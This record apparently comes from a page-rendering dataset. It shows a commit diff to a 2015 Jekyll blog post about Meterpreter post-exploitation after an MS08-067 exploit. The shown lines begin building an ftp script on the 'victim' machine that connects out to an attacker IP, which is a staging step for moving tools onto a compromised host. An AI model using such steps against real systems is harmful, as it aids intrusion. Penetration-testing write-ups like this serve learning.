

Before and after one commit to dmittakarin8/dmittakarin8.github.io, a Jekyll site: the page built from _posts/2015-06-05-Meterpreter-Post-Exploitation.md, in a window 1280 px wide and 900 px high, scrolled down 467 px. Shown: the whole window, without its empty margins (248-1034 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; Markdown is read by kramdown in place of the engine named in the settings.

Commit message:
Updated 2015-06-05-Meterpreter-Post-Exploitation.md

```diff
--- a/_posts/2015-06-05-Meterpreter-Post-Exploitation.md
+++ b/_posts/2015-06-05-Meterpreter-Post-Exploitation.md
@@ -20,7 +20,7 @@ I've exploited MS08-067 without metasploit.  After exploitation I use metasploit
 
 http://dmittakarin8.github.io/Exploiting-MS08067-wo-Metasploit/
 
-**Victim**:  FTP is installed on the server.  FTP is not interactive, so create a text file to pass to the ftp application.  I issue the following commands:
+**Victim**:  FTP is installed on the server.  FTP is not interactive, so create a text file to pass to the ftp application.  I issue the following commands.  *Note the lack of spaces after the echo command*:
 
     echo open 192.168.30.36> ftp.txt
     echo your_username>> ftp.txt
```
